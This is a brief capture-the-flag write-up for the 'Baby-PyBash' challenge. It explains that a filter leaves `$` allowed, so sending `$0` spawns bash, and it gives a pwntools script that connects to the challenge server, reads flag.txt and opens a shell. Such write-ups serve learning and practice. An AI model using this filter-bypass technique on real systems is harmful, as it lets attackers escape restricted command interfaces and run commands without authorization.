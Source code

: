 # Baby-PyBash

Doing some black-box testing, we can figure out that `$` is still allowed. So, we can abuse `$` to run our own environment (/bin/bash) through the default `$0` environment variable. Just running `$0` is sufficient to get shell.

```py
from pwn import *

p = remote("baby-pybash.challs.csc.tf", 1337)

p.sendlineafter(b": ", b"$0")
p.sendline(b"cat flag.txt")
p.interactive()
```
